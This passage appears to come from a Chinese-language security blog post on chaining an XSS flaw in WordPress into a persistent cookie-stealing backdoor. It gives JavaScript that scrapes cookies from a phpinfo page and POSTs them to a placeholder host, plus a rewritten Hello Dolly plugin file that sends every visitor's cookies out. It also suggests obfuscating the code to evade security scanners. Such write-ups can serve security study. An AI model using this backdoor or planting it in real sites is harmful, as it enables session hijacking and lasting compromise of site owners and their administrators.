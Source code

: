 ```
		c.open('GET', p_url, 0);
		c.send();

		sss = /HTTP_COOKIE <\/td><td class="v">[\w=;% \-\+\s]+<\/td/.exec(c.responseText)

		// 将获取到的cookie传出
		var d = new XMLHttpRequest(); 
		d.open('POST', 'http://xxx', true); 
		d.setRequestHeader("Content-type","application/x-www-form-urlencoded");
		d.send('cookie='+sss)
   }
}
```

![image.png-56.9kB][8]

成功收到了来自目标的cookie。

虽然我们成功的收到了目标的cookie，但是这个cookie可能在一段时间之后就无效了，那么怎么能把这样的一个后门转化为持久的攻击呢。这里我还是建议使用hello holly这个插件。

这个插件本身是一个非常特殊的插件，在启用情况下，这个插件会被各个页面所包含，但细心的朋友可能会发现，在前面的攻击过程中，由于我们不遵守插件的页面格式，页面内容被替换为`<?php phpinfo();?>`的过程中，也同样的不被识别为插件，我们需要将页面修改为需要的页面格式，并插入我们想要的代码。

当hello.php为这样时，应该是最简页面内容
```
<?php
/*
Plugin Name: Hello Dolly
Version: 1.6
*/
```

那么我们来构造完整的攻击请求

1、构造xss攻击链接->管理员点击->修改插件目录的hello.php->启动hello, holly插件->访问首页->触发攻击
2、hello.php页面直接获取cookie发出。

hello.php
```
<?php
/*
Plugin Name: Hello Dolly
Version: 1.6
*/
?>
<script>
var d = new XMLHttpRequest(); 
d.open('POST', 'http://xxx', true); 
d.setRequestHeader("Content-type","application/x-www-form-urlencoded");
d.send('cookie=<?php echo urlencode(implode('#', $_COOKIE))?>');
</script>
```

这部分的代码看似简单，实际上还有很大的优化空间，就比如：
1、优化执行条件：通过和远控（xss平台）交互，获取时间戳，和本地时间做对比，如果时间不符合要求不执行，避免管理员在后台的多次访问导致xss平台爆炸。
2、通过代码混淆等方式，将代码混淆入原本的代码中，避免安全类防御工具在站内扫面时发现此页面。


  [1]: http://static.zybuluo.com/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: http://static.zybuluo.com/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: http://static.zybuluo.com/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: http://static.zybuluo.com/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: http://static.zybuluo.com/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: http://static.zybuluo.com/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: http://static.zybuluo.com/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: http://static.zybuluo.com/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: http://static.zybuluo.com/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: http://static.zybuluo.com/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: http://static.zybuluo.com/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: http://static.zybuluo.com/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: http://static.zybuluo.com/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png